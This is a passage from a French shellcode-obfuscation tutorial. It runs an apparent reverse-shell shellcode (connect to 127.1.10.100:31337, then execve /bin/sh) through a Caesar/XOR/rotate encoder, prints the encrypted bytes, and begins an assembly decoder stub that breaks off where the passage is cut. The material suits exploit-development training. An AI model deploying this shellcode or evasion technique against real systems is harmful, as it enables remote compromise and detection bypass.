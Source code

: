 Puis, nous pouvons l'exécuter via la commande suivante :
```shell
./cipherShellcode.py --shellcode \x68\x7f\x01\x0a\x64\x66\x68\x7a\x69\x66\x6a\x02\x48\x31\xd2\x48\x31\xf6\x40\xb6\x01\x48\x31\xff\x40\xb7\x02\x48\x31\xc0\xb0\x29\x0f\x05\x48\x31\xd2\xb2\x11\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xc0\xb0\x2a\x0f\x05\x48\x31\xf6\xb0\x21\x0f\x05\x40\xfe\xc6\xb0\x21\x0f\x05\x40\xfe\xc6\xb0\x21\x0f\x05\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\x31\xf6\x56\x57\x48\x31\xd2\x48\x8d\x3c\x24\x48\x31\xc0\xb0\x3b\x0f\x05 --cesarKey1 13 --XOR 7 --cesarKey2 18 --ROL1 3 --ROL2 5
```

Le résultat nous indique :
```shell
The encrypted shellcode : \xab\x0f\x7f\xe2\x1b\x8a\xab\xaf\xba\x6e\x6b\x1e\xaa\xc6\x06\xaa\xb1\x9c\x6a\x36\x7f\xaa\xb1\xbd\x6a\x16\x87\xaa\xb1\xd5\xed\xc5\xef\x42\x7a\xe3\xfe\xb6\xff\xaa\x54\x44\x89\xe9\xbb\x9a\x7a\xe3\x6e\xf6\xc0\x83\x10\xc6\xf1\x3e\xf4\xc5\x40\x7e\x6a\x3f\xa5\xb7\x31\xbf\x90\xe8\x67\x7a\xbd\xe1\xe0\x40\xb1\x99\x41\xa3\x7b\xcd\xe2\x87\xa3\xca\xaa\xc6\x27\x6c\x82\xc6\xf1\xba\xb1\x53\xd9\x42\xaa\xc6\x75\xb7\xe1\xbf\x90
```

Nous avons désormais notre shellcode chiffré.

{{< admonition >}}
Vous pouvez changer les clefs comme vous le désirez et utiliser également un autre shellcode. Si un badchar est détecté, cela sera indiqué et il suffira de modifier une ou plusieurs clefs jusqu'à avoir une combinaison fonctionnelle.
{{< /admonition >}}

### Déchiffrement du shellcode

Nous devons désormais déchiffrer notre shellcode. Pour cela, nous allons coder un programme en assembleur qui va inverser le processus de chiffrement de notre code Python.

Voici le code assembleur permettant de déchiffrer notre shellcode :
```nasm
section .text:
    global _start

_start:
  
    jmp short uselessButEssential  ;jump to uselessButEssential

    init:
        pop rsi                    ;get the shellcode address
        xor rbx, rbx               ;set to 0 the register we use as index
        xor rcx, rcx               ;set to 0 the register we use as counter
        xor rdx, rdx               ;set to 0 the register we use as a counter to know which decryption function to jump to
        mov cl, 0x66               ;tell our counter the size of our encrypted shellcode - 1 (here 102)

    router1:
        inc dl                     ;increment by 1 the counter to know which decryption function to jump to
        cmp dl, 2                  ;test if our counter equals 2
        je decipherROR2            ;if yes we jump to decipherROR2

    decipherROR1:
        ror byte [rsi + rbx], 0x03 ;do a bitshift to the right to decipher the first bitshift (here 3)
        jmp short manager1         ;jump to manager1

    decipherROR2:
        ror byte [rsi + rbx], 0x05 ;do a bitshift to the right to decipher the first bitshift (here 5)
        xor rdx, rdx               ;set to 0 the register we use as a counter to know which decryption function to jump to

```